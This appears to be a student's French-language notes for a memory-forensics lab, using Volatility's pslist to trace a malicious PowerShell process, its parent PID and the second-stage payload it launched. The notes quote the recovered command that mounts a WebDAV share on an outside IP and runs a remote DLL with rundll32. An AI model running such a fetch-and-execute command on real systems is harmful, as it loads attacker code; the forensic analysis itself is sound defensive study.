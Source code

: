 

![[TP_RAM 2.pdf]]

![[Pasted image 20251008115722.png]]

![[Pasted image 20251008120230.png]]

![[Pasted image 20251008120259.png]]


![[Pasted image 20251008120641.png]]

![[Pasted image 20251008120657.png]]

![[Pasted image 20251008120716.png]]

2. Le **PID parent (PPID)** du processus malveillant (`powershell.exe`, PID **3692**) est **4120** — on le lit directement dans la sortie de `windows.pslist` :
```
3692    4120    powershell.exe   ...
```

3. Le fichier utilisé pour lancer la charge utile de 2ᵉ étape est **`3435.dll`** — appelé via :

`rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`

PowerShell monte un partage WebDAV (`\\45.9.74.32@8888\davwwwroot\`) puis exécute la DLL distante `3435.dll` avec `rundll32`.

4. Le répertoire partagé est **`davwwwroot`** — on le voit dans la ligne PowerShell :

`net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`

